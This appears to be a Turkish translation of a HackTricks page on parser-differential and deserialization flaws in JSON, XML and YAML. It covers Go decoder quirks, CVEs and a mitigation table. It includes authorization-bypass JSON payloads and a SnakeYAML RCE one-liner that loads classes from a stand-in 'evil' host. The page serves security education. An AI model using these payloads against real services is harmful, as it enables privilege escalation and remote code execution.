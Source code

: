 # JSON, XML & Yaml Hacking & Sorunlar

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Aşağıdaki sorunlar Go JSON'da tespit edildi, ancak diğer dillerde de var olabilir. Bu sorunlar [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/) adresinde yayımlandı.

Go’nin JSON, XML ve YAML ayrıştırıcıları, kötüye kullanılabilecek tutarsızlıklar ve güvensiz varsayılanlar uzun bir geçmişine sahiptir; bunlar **bypass authentication**, **escalate privileges**, veya **exfiltrate sensitive data** için kötüye kullanılabilir.

### (Un)Marshaling Unexpected Data

Amaç, bir saldırganın hassas alanları okuyup/yazmasına izin veren struct'ları istismar etmektir (örn., `IsAdmin`, `Password`).

- Örnek Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Yaygın Zafiyetler

1. **Missing tag** (no tag = field is still parsed by default):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **`-` işaretinin yanlış kullanımı**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Bir alanın (un)marshaled edilmesini engellemenin doğru yolu:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Parser Farklılıkları

Amaç, farklı parser'ların aynı payload'u farklı yorumlamasından yararlanarak bypass authorization yapmaktır; örneğin:
- CVE-2017-12635: Apache CouchDB bypass via duplicate keys
- 2022: Zoom 0-click RCE via XML parser inconsistency
- GitLab 2025 SAML bypass via XML quirks


**1. Yinelenen Alanlar:**
Go'nun `encoding/json` **son** alanı alır.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Diğer ayrıştırıcılar (ör. Java’s Jackson) **first**'ı alabilir.

**2. Büyük/küçük harf duyarsızlığı:**
Go büyük/küçük harfe duyarsızdır:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Unicode hileleri bile işe yarıyor:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Servisler arası uyumsuzluk:**
Düşünün:
- Go ile yazılmış Proxy
- Python ile yazılmış AuthZ servisi

Saldırgan gönderir:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python `UserAction`'ı görür, izin verir
- Go `AdminAction`'ı görür, çalıştırır


### Veri Formatı Karışıklığı (Polyglots)

Amaç, formatları karıştıran (JSON/XML/YAML) veya parser hatalarında açık bırakan (fail open) sistemleri istismar etmektir, örneğin:
- **CVE-2020-16250**: HashiCorp Vault, STS XML yerine JSON döndüğünde JSON'u XML ayrıştırıcısıyla işledi.

Saldırganın kontrolü:
- `Accept: application/json` başlığı
- JSON gövdesi üzerinde kısmi kontrol

Go’nun XML ayrıştırıcısı yine de bunu ayrıştırdı ve enjekte edilen kimliğe güvendi.

- Crafted payload:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Sonuç:
- **Go JSON** parser: `Action_2` (büyük/küçük harfe duyarsız + sonuncu kazanır)
- **YAML** parser: `Action_1` (büyük/küçük harf duyarlı)
- **XML** parser: string içinde `"Action_3"`'ü ayrıştırır

---

## Önemli Ayrıştırıcı Zafiyetleri (2023-2025)

> Aşağıdaki herkese açık olarak istismar edilebilen sorunlar, güvensiz ayrıştırmanın çok dilli bir problem olduğunu — sadece Go'ya özgü olmadığını — gösteriyor.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Etkilenir: `org.yaml:snakeyaml` < **2.0** (Spring-Boot, Jenkins vb. tarafından kullanılır).
* Kök neden: `new Constructor()` deserializes **arbitrary Java classes**, allowing gadget chains that culminate in remote-code execution.
* One-liner PoC (zafiyetli hostta hesap makinesini açacaktır):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Düzeltme / Hafifletme:
1. **≥2.0'a yükseltin** (`SafeLoader` varsayılan olarak kullanılır).
2. Eski sürümlerde açıkça `new Yaml(new SafeConstructor())` kullanın.

### libyaml Double-Free (CVE-2024-35325)

* Etkilenir: `libyaml` ≤0.2.5 (birçok dil bağlayıcısı tarafından kullanılan C kütüphanesi).
* Sorun: `yaml_event_delete()`'nin iki kez çağrılması, saldırganların DoS'a veya bazı senaryolarda heap exploitation'a dönüştürebileceği bir double-free'ye yol açar.
* Durum: Upstream “API misuse” olarak reddetti, ancak Linux dağıtımları işaretçiyi savunmacı şekilde null-free yapan yamalı **0.2.6** sürümünü paketledi.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Etkilenir: Tencent **RapidJSON** commit `8269bc2`'den (<1.1.0-patch-22) önceki sürümler.
* Hata: `GenericReader::ParseNumber()` içinde kontrolsüz aritmetik, saldırganların sarmalayan ve heap'i bozacak büyük sayısal literal'ler oluşturmasına izin verir — bu da nihayetinde ortaya çıkan nesne grafiği yetkilendirme kararlarında kullanıldığında privilege-escalation'a olanak sağlayabilir.

---

### 🔐 Hafifletmeler (Güncellendi)

| Risk                                | Düzeltme / Öneri                                      |
|-------------------------------------|--------------------------------------------------------|
| Bilinmeyen alanlar (JSON)           | `decoder.DisallowUnknownFields()`                      |
| Tekrarlayan alanlar (JSON)          | ❌ stdlib'da düzeltme yok — [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) ile doğrulayın |
| Büyük/küçük harfe duyarsız eşleme (Go) | ❌ Düzeltme yok — struct tag'larını doğrulayın + girdiyi önceden kanonikleştirin |
| XML çöp verisi / XXE                | Güçlendirilmiş bir ayrıştırıcı kullanın (`encoding/xml` + `DisallowDTD`) |
| YAML bilinmeyen anahtarlar          | `yaml.KnownFields(true)`                               |
| **Unsafe YAML deserialization**     | SafeConstructor kullanın / SnakeYAML ≥2.0'a yükseltin  |
| libyaml ≤0.2.5 double-free          | **0.2.6**'ya veya dağıtım tarafından yamalanmış sürüme yükseltin |
| RapidJSON <patched commit           | En son RapidJSON ile derleyin (≥Temmuz 2024)           |

## See also

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## Referanslar

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
